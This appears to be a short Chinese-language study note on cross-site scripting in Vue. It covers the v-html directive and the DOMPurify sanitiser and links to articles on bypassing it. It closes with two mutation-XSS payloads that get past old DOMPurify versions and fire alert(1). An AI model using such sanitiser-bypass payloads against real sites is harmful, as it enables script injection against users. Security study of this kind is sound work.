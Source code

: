 # XSS 漏洞详攻防对抗过程
- https://tech.meituan.com/2018/09/27/fe-security.html
# VUE中的XSS
- https://blog.csdn.net/weixin_48138187/article/details/135126485
## v-html
v-html 是一个指令，用于动态地将 HTML 内容插入到元素中。与 {{ }} 绑定文本不同，v-html 可以解析并插入 HTML 内容，这使得你可以将 HTML 代码直接渲染到 DOM 中。
## DOMPurify
DOMPurify 是一个非常强大的库，用于清理和消毒 HTML 内容。它的主要目标是防止 XSS（跨站脚本攻击）和其他基于 HTML 的注入攻击。DOMPurify.sanitize 会移除或清理潜在的恶意代码，包括嵌入的 JavaScript 代码。具体地说，DOMPurify 会过滤掉不安全的元素和属性，而不是将其转换为实体编码。
## 绕过DOMPurify
- https://xz.aliyun.com/t/6413?time__1311=n4%2BxnD0Dg70%3DG%3DfPGNnmnDRiWDCDunnnxWTuypD
- https://www.anquanke.com/post/id/219089
- https://xz.aliyun.com/t/8384?time__1311=n4%2BxnD0DcDuDgnDBDmx05fbDyQoUAhvqh%2BbID
## payload
```javascript
// DOMPurify < V2.0.0 
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">

// DOMPurify <=  2.0.17
<form>
    <math><mtext>
</form><form>
    <mglyph>
        <style></math><img src onerror=alert(1)>

```